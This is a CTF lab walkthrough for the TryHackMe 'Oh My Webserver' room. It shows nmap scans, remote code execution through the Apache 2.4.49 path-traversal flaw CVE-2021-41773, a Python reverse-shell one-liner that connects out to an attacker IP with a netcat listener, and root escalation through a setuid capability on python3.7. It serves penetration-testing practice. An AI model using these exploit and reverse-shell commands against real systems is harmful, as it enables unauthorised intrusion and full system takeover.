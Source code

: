 ```yaml
---
title: Oh My Webserver
date: 2023-03-02 02:47:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [web, apache, CVE-2021-41773, linux, RCE, getcap]
published: true
---
```


## Enumeration

### nmap

Initial Scans

```shell
sudo nmap 10.10.200.169 -vvv -p- -T5
sudo nmap -p22,80 10.10.200.169 -vvv -sC -sV -O
```

Response

```shell
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.49 ((Unix))
|_http-server-header: Apache/2.4.49 (Unix)
|_http-favicon: Unknown favicon MD5: 02FD5D10B62C7BC5AD03F8B0F105323C
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
```

## Webserver

The server is running Apache2.4.49.

Using `searchsploit` we can find a possible CVE-2021-21773.

```shell
┌──(oskar㉿kali)-[~/Downloads]
└─$ searchsploit -m multiple/webapps/50383.sh
  Exploit: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50383
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50383.sh
    Codes: CVE-2021-41773
 Verified: True
File Type: ASCII text
Copied to: /home/oskar/Downloads/50383.sh
```

### CVE-2021-41773 RCE

- `https://github.com/thehackersbrain/CVE-2021-41773`

```shell
python3 exploit.py -t ohmywebserver.thm 
--------------------------------------------------------
|                Apache2 2.4.49 - Exploit              |
--------------------------------------------------------
>>> whoami
daemon
```

can try to get a reverse shell

```shell
export RHOST="10.2.3.64";export RPORT=6999;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

```shell
nc -lvnp 6999
```

## User Privilege Escalation

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

Running `getcap -r / 2>/dev/null` shows that python3.7 has its capsetuid+ep

```shell
python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

And we have a root shell we can check /root/user.txt for the user flag.

## Root Privilege Escalation

have to come back to this later :(
